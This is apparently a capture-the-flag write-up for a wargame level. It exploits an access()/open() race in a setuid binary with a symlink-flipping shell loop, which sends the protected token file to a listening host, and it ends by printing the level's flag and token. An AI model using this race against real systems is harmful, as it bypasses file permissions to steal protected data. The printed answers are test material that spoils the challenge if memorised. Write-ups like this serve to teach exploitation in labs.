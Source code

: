 # A binary designed to connect to a remote host on port 6969 and send a file to the host.

# We want to read the token file
- When we first run the executable, we have: 
```
./level10 file host
        sends file to host if you have access to it
```

- The program checks if there are 3 arguments.

- If it does not have access to the first argument (the file), it returns a message and terminates.
- Therefore, we need to create access to the file named "token".

# The binary attempts to connect on port 6969.
- Use ghidra to know that, so scp -P 4242 level10@192.168.56.XXX:/home/user/level10/level10 ~/Downloads/   
- We can see 'Connecting to 6969'
- We can see by doing "./level10 .profile blabla"

- If it succeeds, it sends a message ".().\n" to the remote server.

# Create a server 
- python3 server.py on host
- on machine: 
    - echo "coucou" > /tmp/coucou
    - ./level10 /tmp/coucou 192.168.56.1 
- We receive information from server

# About token, its not about name, its about permission
- We can see a call of access very early

```
Avertissement : Utiliser access() pour vérifier si un utilisateur a le droit, par exemple, d'ouvrir un fichier avant d'effectuer réellement l'ouverture avec open(2),risque de créer un trou de sécurité. En effet, l'utilisateur peut exploiter le petit intervalle de temps entre la vérification et l'accès pour modifier le fichier (via un lien symbolique en général). Pour cette raison, l'utilisation de cet appel système devrait être évitée.
```

- So, we'll create a symbolic link either for token to read it and to /tmp/coucou to by pass permission, on a infinite loop for a 'race condition'

```bash
$(while true; do ln -sf /tmp/coucou /tmp/faketoken; ln -sf $(pwd)/token /tmp/faketoken; done)&
```
# We need to send the symlink to the server, a lot of time

```bash
./level10 /tmp/faketoken 192.168.56.1 
```

# then flag and token 
su flag10 = woupa2yuojeeaaed06riuj63c
token = feulo4b72j7edeahuete3no7c
